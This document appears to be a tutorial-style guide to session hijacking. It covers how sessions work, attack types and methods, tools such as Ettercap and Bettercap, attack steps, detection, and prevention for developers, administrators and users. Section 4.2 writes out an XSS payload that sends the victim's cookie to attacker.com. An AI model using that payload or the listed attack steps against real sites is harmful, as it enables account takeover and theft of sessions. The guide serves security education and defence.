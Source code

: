 Session Hijacking – Complete Guide

1. What is Session Hijacking?

       Session hijacking is a cyberattack where an attacker takes over an active communication         session between two systems—typically a user and a web application—by stealing or               predicting the session ID.
       Once successful, the attacker can impersonate the legitimate user and perform actions as        them without needing to log in.

2. How Sessions Work

       1) Session: A temporary interaction between a client and a server after authentication.
       2) Session ID: A unique token (usually stored in cookies, URL parameters, or HTTP headers) used to track the user’s session.
       3) Session Management: The process of creating, maintaining, and terminating sessions securely.

When a user logs in:

    1) They provide valid credentials.
    2) The server creates a session ID.
    3) The session ID is sent to the client.
    4) The client sends the ID with every request.
    5) If the session ID is stolen, the attacker bypasses authentication.

3. Types of Session Hijacking

       A. Active Session Hijacking --- The attacker actively takes over a session while it’s still in progress.
          a) Example: Using a man-in-the-middle (MITM) attack to inject commands.
       B. Passive Session Hijacking --- The attacker silently monitors and captures traffic to extract the session ID.
          a) Example: Packet sniffing on unencrypted Wi-Fi.

4. Methods of Session Hijacking

       4.1. Session Sniffing
            a) Capturing unencrypted network packets to extract session IDs.
            b) Tools: Wireshark, tcpdump, Ettercap.

       4.2. Cross-Site Scripting (XSS)
            a) Injecting malicious JavaScript to steal cookies containing session IDs.
            b) Example: <script>document.location='http://attacker.com?cookie='+document.cookie</script>

       4.3. Man-in-the-Middle (MITM)
            a) Intercepting communication between client and server.
            b) Tools: Bettercap, Cain & Abel, MITMf.

       4.4. Session Fixation
            a) Attacker sets the victim’s session ID before login, then reuses it after authentication.

       4.5. Predictable Session IDs
            a) If a web application generates weak or guessable session IDs, the attacker can guess them.

       4.6. Malware / Keyloggers
            a) Stealing session tokens from browser storage or memory.

       4.7. Sidejacking
            a) Hijacking HTTP sessions over unsecured Wi-Fi using packet sniffers.
            b) Example: Firesheep browser extension.

5. Steps of a Session Hijacking Attack

       1) Preparation – Set up sniffing or interception tools.
       2) Session ID Capture – Extract the session token from cookies, headers, or URLs.
       3) Session Injection – Use the stolen session ID to craft requests.
       4) Privilege Escalation – Attempt actions as the victim (view data, perform                        transactions).
       5) Maintaining Access – Possibly create a backdoor or persist with stolen cookies.

6. Tools for Session Hijacking

       1) Wireshark – Packet analysis
       2) Ettercap – MITM attacks
       3) Bettercap – Advanced MITM
       4) Burp Suite – Intercept and manipulate HTTP traffic
       5) Cain & Abel – Sniffing and session token grabbing
       6) Firesheep – Sidejacking (HTTP session hijacking)

7. Detection of Session Hijacking

       1) Abnormal IP Changes: Session suddenly accessed from different locations.
       2) Multiple Devices: Same session used from two devices at once.
       3) High Volume Requests: Automated actions in a short time frame.
       4) IDS/IPS Alerts: Detection of suspicious packet patterns.

8. Prevention & Countermeasures

       8.1. For Web Developers
            a) Use HTTPS for all sessions.
            b) Implement Secure, HttpOnly, and SameSite cookie flags.
            c) Regenerate session IDs after login.
            d) Use unpredictable and cryptographically secure session IDs.
            e) Implement session timeout & inactivity logout.
            f) Detect anomalies in session behavior.

       8.2. For Network Administrators
            a) Use VPNs for internal access.
            b) Enforce TLS/SSL encryption.
            c) Deploy Intrusion Detection/Prevention Systems.
            d) Segment networks to limit sniffing.

       8.3. For End Users
            a) Avoid public Wi-Fi for sensitive logins.
            b) Use VPNs when possible.
            c) Log out from accounts after use.
            d) Disable browser features that store passwords and cookies insecurely.


